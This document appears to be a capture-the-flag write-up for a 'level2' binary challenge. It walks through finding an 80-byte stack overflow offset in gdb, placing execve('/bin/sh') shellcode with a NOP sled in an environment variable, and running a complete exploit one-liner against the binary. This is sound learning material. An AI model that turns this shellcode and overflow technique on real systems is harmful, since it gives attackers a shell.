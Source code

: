 This program waits for an input and rewrite it in stdout with `puts` function and then exits. 

Just like the previous level, we want to segfault the programm by doing an overflow on `gets` function used in `p`.

We notice that if we want to go in the `if` condition, we have to give a specific adress : 

>  0x08048500 <+44>:	cmp    $0xb0000000,%eax

The adress is suppposed to be equal to `0xb0000000`, but no adress in the stack looks like this. So, if we want to pass the adress of something here, it has to be stored elsewhere.

First, we calculate the offset from the `eax` of `gets` to the `eip` of the `CMP` operation to know how much we have to overflow :

We put the first breakpoint right after the `gets` function :

> (gdb) br *0x080484f2   
> Breakpoint 1 at 0x80484f2

And a second breakpoint in the `CMP` operation :

>(gdb) br *0x08048500   
>Breakpoint 2 at 0x8048500

Then we run the program, and deduct the `eip` address from the `eax` address :

```
(gdb) r
Starting program: /home/user/level2/level2 


Breakpoint 1, 0x080484f2 in p ()
(gdb) x $eax
0xbffff6cc:	0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048500 in p ()
(gdb) info frame
Stack level 0, frame at 0xbffff720:
 eip = 0x8048500 in p; saved eip 0x804854a
 called by frame at 0xbffff730
 Arglist at 0xbffff718, args: 
 Locals at 0xbffff718, Previous frame's sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
(gdb) p 0xbffff71c - 0xbffff6cc
$1 = 80
```

We now know that we have to overflow with 80 characters !

Since we cannot store a shellcode opening a shell in the stack, we are going to store it in the env :

```
export SHELLCODE=`python -c 'print("\x90"*200+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`
```

We put 200 'nop' instructions before the shellcode.


We write a small program in `/tmp` to print the address of the env variable :

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    char* ptr = getenv("SHELLCODE");
    printf("%p\n", ptr);
}
```

Now we write our exploit :

`(python -c 'print "A" * 80 + "\x3e\x85\x04\x08" + "\xd2\xf8\xff\xbf"' ; cat) | ./level2`

Overflow of 80 char + address of the ret of `p` function + address of the shellcode

# Sources :

Where to find the shellcode :
- https://beta.hackndo.com/buffer-overflow/#pratique
